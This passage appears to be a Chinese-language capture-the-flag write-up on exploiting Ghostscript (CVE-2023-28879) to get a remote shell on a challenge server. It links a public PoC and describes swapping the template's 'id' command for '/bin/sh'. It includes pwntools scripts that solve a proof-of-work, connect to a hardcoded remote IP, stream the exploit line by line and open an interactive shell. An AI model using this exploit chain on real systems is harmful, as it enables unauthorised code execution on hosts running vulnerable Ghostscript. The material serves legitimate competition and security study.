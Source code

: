 本地起 docker,127.0.0.1:1337 nc 上去，然后一行一行输入 poc,得到部分正确的地址(3/5)

```python
from pwn import *

with open('debian10.01.0.ps', 'r') as file:
    lines = file.read().splitlines()

for idx in range(len(lines)):
    sh.sendline(lines[idx].encode())
    sleep(0.125)
    print(sh.recv(timeout=0.125).decode())
    print(f'line <strong>{</strong>idx + 1<strong>}</strong> sent')
```

---

google 搜索"Ghostscript exploit"成功找到万用脚本 [https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript_rce](https://github.com/AlmondOffSec/PoCs/tree/master/Ghostscript_rce)

本地复现，docker 复现均通过，尝试连接远端

首先完成工作量证明，然后发送 exp，成功拿到终端

<strong>还有就是 final-poc.ps.template 中的</strong><strong>id\0</strong><strong>命令要换成</strong><strong>/bin/sh\0</strong>

作者的详解：https://offsec.almond.consulting/ghostscript-cve-2023-28879.html

```python
from pwn import *
from pwnlib.util.iters import mbruteforce
from hashlib import md5
import string
import sys

REMOTE = '47.98.192.157'
sh = remote(REMOTE, 1337)
sh.recvuntil(b'"')
startflag = sh.recv(5).decode()

def brute(cur):
    s = md5(cur.encode())
    if s.hexdigest().startswith(startflag):
        return True
    return False

res = mbruteforce(brute, string.ascii_letters + string.digits, method = 'upto', length=4, threads = 20)
sh.sendline(res.encode())

sh.recvuntil(b'port: ')
newport = int(sh.recvline().decode())

sleep(5) # wait for service to start
sh.close() # when we see 'bye', we can close it

sh = remote(REMOTE, newport)
with open('final-poc.ps', 'r') as file:
    lines = file.read().splitlines()

for idx in range(len(lines)):
    sh.sendline(lines[idx].encode())
    sleep(0.125)
    print(sh.recv(timeout=0.125).decode())
    print(f'line {idx + 1} sent') 

sh.interactive()
```